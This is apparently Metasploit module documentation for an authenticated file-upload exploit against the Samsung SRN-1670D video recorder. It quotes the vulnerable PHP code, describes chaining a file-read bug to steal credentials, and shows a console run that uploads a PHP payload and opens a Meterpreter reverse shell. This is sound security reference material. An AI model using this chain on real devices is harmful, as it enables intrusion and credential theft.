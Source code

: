 ## Description

Samsung NVR Recorder SRN-1670D is a high performance network video recorder. An arbitrary file
upload vulnerability was found in the Web Viewer component, which could allow an authenticated
user to upload a PHP payload to get code exuection. The vulnerable code can be found in
network_ssl_upload.php:

```php
    22 $path = "./upload/";
    23 $file = $_FILES[ "attachFile" ];
    24 $isApply = ( int )$_POST[ "is_apply" ];
    25 $isInstall = ( int )$_POST[ "isInstall" ];
    26 $isCertFlag = ( int )$_POST[ "isCertFlag" ];
    27 
    28 // create socket
    29 $N_message = "";
    30 $sock = mySocket_create($_is_unix_socket);
    31 $connected = mySocket_connect($_is_unix_socket, $sock);
    32 
    33 $loginInfo = new loginInfo();
    34 $retLogin = loginManager( $connected, $sock, null, $loginInfo );
    35 if ( ( $retLogin == true ) && ( $isApply == 2 || $isApply == 3 ) ) {
    36  if ($connected) {
    37   $id = $loginInfo->get_id();
    38   $xmlFile = $id.'_config.xml';
    39   $N_message = "dummy".nvr_command::DELIM;
    40   $N_message .= "userid ".$id.nvr_command::DELIM;
    41   
    42   if ( $isInstall == 1 ) {
    43    // File upload ===============================================================  
    44    if ( $file[ "error" ] 0 ) {
    45     $Error = "Error: ".$file[ "error" ];
    46    } else {
    47     $retFile = @copy( $file[ "tmp_name" ], $path.$file[ "name" ] );
    48    }
    49    // ===========================================================================
    50   }
```

To avoid the need of authentication, the exploit also takes advantage of another vulnerability
(CVE-2015-8279) in the log exporting function to read an aribtrary file from the remote machine
in order to obtain credentials that can be used for the attack.

## Vulnerable Application

Samsung NVR Recorder SRN-1670D is a hardware:

http://www.samsungcc.com.au/cctv/ip-nvr-solution/samsung-dvr-srn-1670d

## Scenarios

```
msf exploit(samsung_srv_1670d_upload_exec) > show options 

Module options (exploit/multi/http/samsung_srv_1670d_upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.200      yes       The target address.
   RPORT    80               yes       The target port (TCP).
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.122      yes       The listen address
   LPORT  4358             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samsung SRN-1670D == 1.0.0.193


msf exploit(samsung_srv_1670d_upload_exec) > exploit -j 
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.122:4358 
msf exploit(samsung_srv_1670d_upload_exec) > [*] Obtaining credentails...
[+] Credentials obtained successfully: admin:pass123!
[*] Logging...
[+] Authentication Succeeded
[*] Generating payload[ eRdGKfFJ.php ]...
[*] Uploading payload...
[*] Executing payload...
[*] Sending stage (33986 bytes) to 192.168.1.200
[*] Meterpreter session 3 opened (192.168.1.122:4358 -> 192.168.1.200:55676) at 2017-06-19 11:52:22 +0100
```